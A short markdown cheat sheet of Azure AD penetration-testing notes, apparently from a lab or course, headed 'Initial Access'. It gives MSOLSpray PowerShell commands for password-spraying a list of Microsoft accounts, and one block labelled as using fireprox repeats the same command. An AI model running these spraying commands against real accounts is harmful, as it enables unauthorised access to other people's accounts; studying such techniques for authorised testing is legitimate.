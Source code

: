 # Initial Access

- [Password Spray](#password-spray)

## Password Spray

using MSOLSpray (https://github.com/dafthack/MSOLSpray) 
```
Import-Module MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password V3ryH4rdt0Cr4ckN0OneCanGu3ssP@ssw0rd
```

using fireprox (https://github.com/ustayready/fireprox)
```
. C:\AzAD\Tools\MSOLSpray\MSOLSPray.ps1
Invoke-MSOLSpray -UserList C:\AzAD\Tools\validemails.txt -Password V3ryH4rdt0Cr4ckN0OneCanGu3ssP@ssw0rd -Verbose 
```

[Back to the top](#initial-access)